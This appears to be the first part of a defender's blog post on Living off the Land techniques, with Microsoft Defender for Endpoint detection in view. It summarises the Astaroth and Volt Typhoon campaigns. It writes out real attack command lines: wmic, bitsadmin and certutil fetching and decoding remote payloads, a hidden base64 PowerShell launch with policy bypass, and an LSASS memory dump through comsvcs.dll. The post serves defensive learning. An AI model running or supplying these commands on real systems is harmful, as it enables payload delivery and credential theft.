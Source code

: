 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system. 

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.



### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
1. WMI
2. Bitsadmin
3. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

```cmd
Wmic.exe os get ved5hit39, 25hit8, numberofusers /format:"https://storage.googleapis.com/ultramaker/09/v.txt"
```
```cmd
Wmic.exe os get QMUTSQPK, JUXKBVOK, LNFTZKMH, freephyscialmemory /format:"https://storage.googleapis.com/ultramaker/08/vv.txt" 
```

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.


```cmd
bitsadmin.exe /transfer msd5 /priority foreground https://storage.googleapis.com/ultramaker/x/ 09/falcvonxrenwb.jpg.zip.log? %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z
```

```cmd
certutil.exe -urlcache -f "<URL/Payload>" "%Temp%\demo.exe"
```
```cmd
certutil.exe -decode %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z %PUBLIC%\Libraries\temporary\falxconxrenwb.~
```

![Astaroth](image.png)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

### [Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/)

1. WMI
2. LSASS Process dumping (LotL)
   - cmd.exe / powershell.exe
   - rundll32.exe
   - base64 encode 

```powershell
cmd.exe /c powershell -exec bypass -W hidden -nop -E <Base64>
```
```cmd
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <PID> %Temp%\lsass.dmp full
```

![alt text](image-1.png)
>  Volt Typhoon attack diagram
---
- Mshta
- Regsvr32
- Scheduled Tasks

